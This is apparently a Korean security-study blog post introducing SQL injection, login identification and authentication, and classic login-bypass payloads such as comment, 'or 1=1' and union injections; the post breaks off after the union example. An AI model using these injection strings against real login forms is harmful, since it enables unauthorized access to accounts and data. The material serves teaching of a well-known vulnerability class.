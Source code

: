 ```yaml
---
layout: post
title: "SQL Injection -01 로그인"
tags: [모의해킹, SQL Injection]
comments: true
---
```


SQL Injection의 개념과 공격 방식 로그인 편
---

## (1) SQL 개념

![image](https://github.com/what0302/what0302.github.io/assets/18510716/ddb55325-2bc2-4ab6-983b-dc0ea67abacb)

### 1-1 SQL이란?

SQL(Structed Query Language : 구조적 질의 언어)는 관계형 데이터베이스 시스템에서 자료를 관리 및 처리하기 위해 설계된 언어임.

### 1-2 SQL Injection이란?

악의적인 사용자가 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL 쿼리문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도로 조작하는 행위임.

주로 사용자가 입력한 데이터를 제대로 필터링, 이스케이핑하지 못했을 경우에 발생함. 이러한 Injection 공격은 OWASP에서도 1순위로 분류될 만큼 공격이 성공할 경우 막대한 피해를 입힐 수 있어 보안에 각별한 주의가 필요함.

* OWASP(Open Web Application Security Project : 오픈소스 웹 애플리케이션 보안 프로젝트)란, 주로 웹에 관한 정보노출, 악성파일 및 스크립트, 보안 취약점 등을 연구하는 개방형 커뮤니티이며, 10대 웹 애플리케이션 취약점(OWASP TOP 10)을 발표함.

## (2) 로그인 인증

SQL Injection 공격은 DB와 웹사이트가 연결된 모든 파라미터에서 공격이 가능함. 여기서는 우선 로그인 파라미터에서 공격이 어떤 식으로 진행되는지를 간략히 설명함.

### 2-1 로그인 인증 과정

사용자가 웹사이트에 로그인을 진행하게 되면, 두 가지 프로세스가 처리되는데 하나는 **식별**이고 다른 하나는 **인증**임.

식별은 사용자가 시스템에게 인증받은 자라는 것을 확인 요청하는 프로세스로, 많은 데이터 중에서 사용자를 특정할 수 있는 정보를 뜻함.
대표적인 식별 정보에는 ID가 있으며, 이는 중복될 수 없음.

인증은 시스템이 사용자가 본인임을 증명하는 프로세스로, 일반적으로 비밀번호를 통해 사용자에게 인증을 요구함.
대표적인 인증 정보에는 비밀번호가 있음.

### 2-2 식별과 인증 프로세스

로그인 시 진행되는 식별과 인증의 프로세스는 크게 두 가지로 분류할 수 있음.

### 2-2-1 식별&인증 동시 방식

식별&인증 동시 방식은 아이디와 비밀번호를 동시에 비교해서 로그인하는 과정임.
`select * from table where id='eric' and password='eric1234';`

### 2-2-2 식별&인증 분리 방식

식별&인증 분리 방식은 아이디가 존재하는지 먼저 확인하고 비밀번호를 비교해서 로그인하는 과정임.
`if(select * from table where id='eric'; == user_id){
  if(select * from table where password='eric1234'; ==user_pw)
  }`

## (3) 로그인 인증 우회

로그인 파라미터에 SQL 질의문을 삽입하여 로그인 인증을 우회하는 방법을 설명함.

### 3-1 식별&인증 동시 우회

### 3-1-1 주석 처리 우회

(1) `select * from table where id='eric'#' and password='1';`
입력값 : eric'#

(2) `select * from table where id='eric' or '1'='1' # and password ='1';`
입력값 : eric' or '1'='1' #

-> and 문을 주석처리하여 인증 과정을 우회함

### 3-1-2 or 구문 우회

(1) `select * from table where id='eric' or '1'='1' and password ='1';`
입력값 : eric' or '1'='1

-> SQL 문법에선 or 연산자보다 and 연산자가 우선 처리됨. 즉, 후자의 and 문이 처리되면 거짓으로 처리되나, 이후에 처리되는 or 문 때문에 아이디가 eric 이거나 뒤의 and 문 중 하나만 참이어도 결과가 출력됨. 그러므로 해당 SQL 쿼리가 실행되면 eric의 정보가 추출됨

(2) `select * from table where id='eric' or '1'='1' or '1'='1' and password='1';`
입력값 : eric' or '1'='1' or '1'='1

-> 위에선 eric에 대한 정보만 추출되었다면, 해당 SQL 쿼리는 모든 정보를 추출할 수 있음.

### 3-2 식별&인증 분리 우회

### 3-1-3 union 우회

(1) `select * from table where id='eric' union select '1','2','3','4' # and password='1';`
입력값 : eric' union select '1','2','3','4' #

-> SQL에서 union은 쿼리를 여러개 실행할 수 있게 만들어주는 문법임. 


















